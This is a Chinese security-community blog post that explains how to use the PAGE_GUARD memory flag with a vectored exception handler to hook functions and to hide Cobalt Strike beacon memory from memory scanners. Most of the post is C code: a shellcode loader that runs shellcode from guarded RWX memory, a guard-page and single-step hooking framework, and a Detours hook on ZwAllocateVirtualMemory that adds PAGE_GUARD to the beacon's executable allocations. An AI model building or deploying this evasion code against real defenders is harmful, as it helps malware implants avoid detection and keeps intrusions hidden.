






# 从PAGE_GUARD HOOK 到内存扫描规避-先知社区

> **来源**: https://xz.aliyun.com/news/16483  
> **文章ID**: 16483

---

前两天看见鸭哥的文章<https://mp.weixin.qq.com/s/cSZTzVSbUExF9A-7TsmWvw>

里面利用内存的`PAGE_GUARD`属性 进行规避扫描 学习一下 记录一下过程

# 探测

先简单了解一下`PAGE_GUARD`

PAGE\_GUARD属性为内存提供一次性警报

访问`PAGE_GUARD`修饰的地址会引发**STATUS\_GUARD\_PAGE\_VIOLATION**异常 并移除`PAGE_GUARD`状态

```
#include <iostream>
#include <windows.h>
#include "loader.h"


int main(){

    LPVOID lpMem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT,PAGE_GUARD | PAGE_EXECUTE_READWRITE);
    memcpy(lpMem, shellcode, sizeof(shellcode));

    memcpy(lpMem, shellcode, sizeof(shellcode));
    printf("%p \n", lpMem);

    ((void(*)(void)) lpMem)();

    system("pause");
}

```





可以看见在第二次尝试写的时候成功写入 注意一下这里是用的调试 所以异常是被处理了的 直接跑是不行的


# hook

现在利用这个异常我们已经可以进行hook了 但是问题是只能进行一次 因为PAGE\_GUARD会被消除 这时候我们可以利用`SIGNLE_STEP` 单步异常来再次设置属性 恢复执行

将eflags的`TF`位置1 即可触发单步异常

这里的处理类似硬断hook

```
#include <iostream>
#include <windows.h>
#include "loader.h"


typedef struct _CIntelligentHookedFunction{
    void* from;
    void* to;
    void** original;
} CIntelligentHookedFunction;

typedef struct _CHooks{
    CIntelligentHookedFunction* hookedFunctions;
    size_t count;
    size_t capacity;
} CHooks;

CHooks g_hooks = { NULL, 0, 0 };

static void AddPageGuardProtect(void* addr) {
    DWORD oldProtect;
    MEMORY_BASIC_INFORMATION mbi;
    SYSTEM_INFO sysInfo;

    GetSystemInfo(&sysInfo);
    VirtualQuery(addr, &mbi, sizeof(MEMORY_BASIC_INFORMATION));
    VirtualProtect(addr, sysInfo.dwPageSize, mbi.Protect | PAGE_GUARD, &oldProtect);
}
const CIntelligentHookedFunction* CHooks_GetHookedFunctions(size_t* count) {
    *count = g_hooks.count;
    return g_hooks.hookedFunctions;
}


LONG NTAPI ExceptionCallBack(struct _EXCEPTION_POINTERS* ExceptionInfo) {
    LPVOID ExceptionAddress = ExceptionInfo->ExceptionRecord->ExceptionAddress;

    if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_GUARD_PAGE) {

#ifdef _WIN64
        uintptr_t ip = (uintptr_t)ExceptionInfo->ContextRecord->Rip;
#else
        uintptr_t ip = (uintptr_t)ExceptionInfo->ContextRecord->Eip;
#endif
        size_t count;
        const CIntelligentHookedFunction* funcs = CHooks_GetHookedFunctions(&count);
        for (size_t i = 0; i < count; ++i) {
            if (ip == (uintptr_t)funcs[i].from) {
#ifdef _WIN64
                * funcs[i].original = (void*)ExceptionInfo->ContextRecord->Rip;
                ExceptionInfo->ContextRecord->Rip = (uintptr_t)funcs[i].to;
#else
                * funcs[i].original = (void*)ExceptionInfo->ContextRecord->Eip;
                ExceptionInfo->ContextRecord->Eip = (uintptr_t)funcs[i].to;
#endif
                break;
            }
        }

        ExceptionInfo->ContextRecord->EFlags |= 0x100;
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    else if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_SINGLE_STEP) {
#ifdef _WIN64
        uintptr_t ip = (uintptr_t)ExceptionInfo->ContextRecord->Rip;
#else
        uintptr_t ip = (uintptr_t)ExceptionInfo->ContextRecord->Eip;
#endif
        size_t count;
        const CIntelligentHookedFunction* funcs = CHooks_GetHookedFunctions(&count);
        for (size_t i = 0; i < count; ++i) {
            if (ip == (uintptr_t)funcs[i].from) {
                AddPageGuardProtect(funcs[i].from);
                break;
            }
        }

        return EXCEPTION_CONTINUE_EXECUTION;
    }

    return EXCEPTION_CONTINUE_SEARCH;
}


void CHooks_Init() {
    g_hooks.hookedFunctions = NULL;
    g_hooks.count = 0;
    g_hooks.capacity = 0;
    AddVectoredExceptionHandler(1, &ExceptionCallBack);
}


void CHooks_AddHook(void* _Function, void* _Hooked, void** _Original) {
    if (g_hooks.count == g_hooks.capacity) {
        g_hooks.capacity = g_hooks.capacity == 0 ? 4 : g_hooks.capacity * 2;
        g_hooks.hookedFunctions = (CIntelligentHookedFunction*)realloc(g_hooks.hookedFunctions, g_hooks.capacity * sizeof(CIntelligentHookedFunction));
        if (!g_hooks.hookedFunctions) {
            exit(1);
        }
    }

    AddPageGuardProtect(_Function);
    CIntelligentHookedFunction hook = { _Function, _Hooked, _Original };
    g_hooks.hookedFunctions[g_hooks.count++] = hook;

}


typedef int(WINAPI* pMessageBoxW)(
    _In_opt_ HWND hWnd,
    _In_opt_ LPCWSTR lpText,
    _In_opt_ LPCWSTR lpCaption,
    _In_ UINT uType);
pMessageBoxW oriMessageBoxW = MessageBoxW;

int WINAPI  myMessageBoxW(
    _In_opt_ HWND hWnd,
    _In_opt_ LPCWSTR lpText,
    _In_opt_ LPCWSTR lpCaption,
    _In_ UINT uType) {

    return oriMessageBoxW(hWnd, L"Hooked", lpCaption, uType);
}
int main(){

    CHooks_Init();
    CHooks_AddHook(MessageBoxW, myMessageBoxW, (void**)&oriMessageBoxW);

    LPVOID lpMem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_GUARD|PAGE_EXECUTE_READWRITE);
    memcpy(lpMem, shellcode, sizeof(shellcode));
    ((void(*)(void)) lpMem)();

}

```

这里写了一个messagebox的shellcode 我们测一下



# 接管beacon

首先要修改一下VEH的逻辑 这里我们不是通过PAGE\_GUARD去hook函数 我们只是要保护内存

```
LONG NTAPI ExceptionCallBack(struct _EXCEPTION_POINTERS* ExceptionInfo) {
    if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_GUARD_PAGE) {

        lastGuardAddress = (LPVOID)ExceptionInfo->ExceptionRecord->ExceptionInformation[1];

        ExceptionInfo->ContextRecord->EFlags |= 0x100;
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    else if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_SINGLE_STEP) {
        if (lastGuardAddress != nullptr) {
            AddPageGuardProtect(lastGuardAddress);
            lastGuardAddress = nullptr;
        }
        return EXCEPTION_CONTINUE_EXECUTION;
    }

    return EXCEPTION_CONTINUE_SEARCH;
}

```

那么现在我们利用`Detours`去hook `ZwAllocateVirtualMemory` 接管beacon 使之分配的内存带上`PAGE_GUARD`属性

```
HMODULE hNtdll = GetModuleHandle(L"ntdll.dll");
pZwAllocateVirtualMemory ZwAllocateVirtualMemory = (pZwAllocateVirtualMemory)(GetProcAddress(hNtdll, "ZwAllocateVirtualMemory"));
pZwAllocateVirtualMemory oriZwAllocateVirtualMemory = ZwAllocateVirtualMemory;

NTSTATUS NTAPI myZwAllocateVirtualMemory(
    _In_ HANDLE ProcessHandle,
    _Inout_ _At_(*BaseAddress, _Readable_bytes_(*RegionSize) _Writable_bytes_(*RegionSize) _Post_readable_byte_size_(*RegionSize)) PVOID* BaseAddress,
    _In_ ULONG_PTR ZeroBits,
    _Inout_ PSIZE_T RegionSize,
    _In_ ULONG AllocationType,
    _In_ ULONG Protect
) {

    NTSTATUS status = oriZwAllocateVirtualMemory(ProcessHandle, BaseAddress, ZeroBits, RegionSize, AllocationType, Protect);

    do {
        if (status != 0) {
            break;
        }
        if (ProcessHandle != GetCurrentProcess()) {
            break;
        }
        if (AllocationType != MEM_COMMIT) {
            break;
        }
        if (Protect != PAGE_EXECUTE_READWRITE) {
            break;
        }
        else
        {
            status = oriZwAllocateVirtualMemory(ProcessHandle, BaseAddress, ZeroBits, RegionSize, AllocationType, Protect | PAGE_GUARD);
        }

    } while (false);

    return status;

}
void VEH_init() {
    AddVectoredExceptionHandler(1, &ExceptionCallBack);
}

....
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourAttach(&(PVOID&)oriZwAllocateVirtualMemory, myZwAllocateVirtualMemory);
DetourTransactionCommit();

```

只hook RWX的

效果如下





会发现实际上还是有几个地方没有保护上 我的考虑是去hook `NtProtectVirtualMemory` 对任何修改为带X权限的内存 额外加个`PAGE_GUARD` 但是没什么用

因为对CS的实现不是很了解 这块没有研究明白 吊大老哥可以指点一下



# 参考

<https://key08.com/index.php/2024/10/10/2180.html>

<https://www.unknowncheats.me/forum/general-programming-and-reversing/521716-hooks-hooking-using-page_guard.html>
